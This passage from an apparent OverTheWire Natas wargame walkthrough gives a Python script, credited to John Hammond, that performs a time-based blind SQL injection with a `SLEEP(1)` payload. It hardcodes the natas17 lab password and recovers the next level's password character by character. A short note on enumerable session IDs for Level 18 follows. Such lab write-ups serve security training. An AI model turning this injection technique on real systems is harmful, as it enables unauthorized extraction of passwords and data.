 4. The script logic (Credits: John Hammond): https://github.com/JohnHammond/overthewire_natas_solutions/blob/master/natas16.py

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import time
import string

# Character set: lowercase + uppercase + digits
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

username = 'natas17'
password = 'EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC'

url = f'http://{username}.natas.labs.overthewire.org/'

session = requests.Session()

seen_password = []

while len(seen_password) < 32:
    for character in characters:
        test_password = ''.join(seen_password) + character
        print(f"Trying: {test_password}")

        # Start the timer
        start_time = time.time()

        payload = f'natas18" AND BINARY password LIKE "{test_password}%" AND SLEEP(1) #'
        response = session.post(
            url,
            data={"username": payload},
            auth=(username, password)
        )

        # Measure time difference
        end_time = time.time()
        difference = end_time - start_time

        if difference > 1:
            # Found correct character
            seen_password.append(character)
            break  # Move to next position

print("Recovered password:", ''.join(seen_password))
```
This will gradually build the password.

### Natas Level 18 → Level 19
**Key Takeaways**  
This level demonstrates **session enumeration** / insecure session handling. Predictable or enumerable session identifiers (here PHPSESSID) let an attacker impersonate other users (e.g., an admin).
